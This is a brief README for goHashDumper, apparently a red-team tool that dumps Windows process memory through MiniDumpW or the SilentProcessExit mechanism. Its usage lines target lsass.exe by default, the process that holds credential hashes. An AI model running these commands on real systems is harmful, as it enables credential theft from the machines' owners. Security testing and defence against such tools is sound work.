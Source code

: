 # goHashDumper

## Note
Dump内存都需要管理员权限

## Description 
用于Dump指定进程的内存,主要利用静默退出机制(SilentProcessExit)和Windows API(MiniDumpW)实现

## Usage
```
gohashdumper.exe -method 1 -out test.dmp -process lsass.exe
gohashdumper.exe -method 2 -path C:\tmp -pid 2333
  -method string
        choose Dump file Method(1 => MiniDumpW  2=> SilentExitDump) (default "1")
  -out string
        dump file name (default "lsass.dmp")
  -path string
        only method 2 need a filepath (default "D:\\RedTeam\\GoHashDumper")
  -pid string
        If not use process name,it can support pid
  -process string
        Process to dump (default "lsass.exe")
 ```
 
 ## Example
 ![](https://md.byr.ac.cn/uploads/upload_5b10a8ab6245d3bb5cf7a261fb34a5b0.png)
